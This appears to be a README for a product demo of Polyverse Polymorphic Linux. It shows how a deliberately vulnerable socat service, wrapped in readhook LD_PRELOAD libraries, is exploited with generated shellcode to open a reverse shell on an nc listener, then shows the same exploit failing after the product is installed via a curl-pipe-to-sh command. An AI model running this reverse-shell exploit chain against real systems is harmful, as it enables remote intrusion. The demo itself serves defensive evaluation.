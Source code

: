 # Demonstration: Polyverse Polymorphic Linux
## Set up for a Reverse Shell
### (1) Start nc listening on port 5555 (Session-1)
    nc -kl 5555
## Run a simple socat echo server under Readhook
### (2) Start with a clean alpine:3.7 (Session-2)
    docker run --rm -it -p 8080:8080 alpine:3.7 sh
### (2) We'll need curl and wget
#### (2) Alpine
    apk update && apk add curl socat wget
#### (2) CentOS
    yum update -u && yum install -y curl nc socat wget
#### (2) Ubuntu
    apt-get update -y && apt-get install -y curl netcat socat wget
### (2) Get readhook components
    wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/jenkins/basehook.so
    wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/jenkins/fullhook.so
### (2) Start nc with readhook in front of libc
    socat -T60 TCP4-LISTEN:8080,reuseaddr SYSTEM:"/usr/bin/env LD_PRELOAD='/tmp/fullhook.so:/tmp/basehook.so' /bin/cat"
## Generate Shell-Code and Perform Exploit
### (3) Generate shell-code for the exploit (Session-3)
    export shellCode=$(echo "xyzzxMAKELOADdocker.for.mac.localhost" | nc localhost 8080)
### (2) Re-start nc with minimal readhook in front of libc
    socat -T60 TCP4-LISTEN:8080,reuseaddr SYSTEM:"/usr/bin/env LD_PRELOAD=/tmp/basehook.so /bin/cat"
### (3) Send shell-code to the OVERFLOW for a reverse shell
    echo $shellCode | nc localhost 8080
### (1) Check that the overflow resulted in a remote shell
    ls && whoami && exit
## Install Polyverse Polymorphic Linux
### (2) Add Polyverse as the preferred repository
    curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
### (2) Replace standard packages with Polymorphic Linux
    # (Execute the command given at the end of the previous step)
## Test Polyverse Polymorphic Linux
### (2) Re-start nc with minimal readhook
    socat -T60 TCP4-LISTEN:8080,reuseaddr SYSTEM:"/usr/bin/env LD_PRELOAD=/tmp/basehook.so /bin/cat"
### (3) Try the shellCode with Polymorphic Linux
    echo $shellCode | nc localhost 8080
### (1) Confirm that nobody phoned-home to the listener
### (2) Confirm that the server terminated abnormally
